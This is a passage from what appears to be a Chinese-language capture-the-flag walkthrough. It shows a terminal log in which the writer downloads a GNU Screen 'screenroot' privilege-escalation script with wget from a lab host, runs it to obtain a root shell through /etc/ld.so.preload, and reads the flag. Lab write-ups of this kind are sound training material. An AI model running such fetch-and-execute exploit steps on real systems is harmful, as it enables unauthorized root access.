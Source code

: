     ```python
    $ wget http://192.168.75.151/41154.sh
    converted 'http://192.168.75.151/41154.sh' (ANSI_X3.4-1968) -> 'http://192.168.75.151/41154.sh' (UTF-8)
    --2024-11-03 05:11:00--  http://192.168.75.151/41154.sh
    Connecting to 192.168.75.151:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 1149 (1.1K) [application/x-sh]
    Saving to: '41154.sh'
    
    41154.sh            100%[=====================>]   1.12K  --.-KB/s   in 0s
    
    2024-11-03 05:11:00 (8.86 MB/s) - '41154.sh' saved [1149/1149]
    //
    $ chmod u+x 41154.sh
    //
    $ ./41154.sh
    ~ gnu/screenroot ~
    [+] First, we create our shell and library...
    [+] Now we create our /etc/ld.so.preload file...
    [+] Triggering...
    ' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
    No Sockets found in /tmp/screens/S-www-data.
    
    # id
    id
    uid=0(root) gid=0(root) groups=0(root),33(www-data)
    # whoiam
    whoiam
    sh: 2: whoiam: not found
    # whoami
    whoami
    root
    ```
    
    提权成功，读取`flag`文件
    
    ```python
    # cat thisistheflag.txt
    cat thisistheflag.txt
    
    888b    888 d8b                                                      888      888 888 888
    8888b   888 Y8P                                                      888      888 888 888
    88888b  888                                                          888      888 888 888
    888Y88b 888 888  .d8888b .d88b.       888  888  888  .d88b.  888d888 888  888 888 888 888
    888 Y88b888 888 d88P"   d8P  Y8b      888  888  888 d88""88b 888P"   888 .88P 888 888 888
    888  Y88888 888 888     88888888      888  888  888 888  888 888     888888K  Y8P Y8P Y8P
    888   Y8888 888 Y88b.   Y8b.          Y88b 888 d88P Y88..88P 888     888 "88b  "   "   "
    888    Y888 888  "Y8888P "Y8888        "Y8888888P"   "Y88P"  888     888  888 888 888 888
    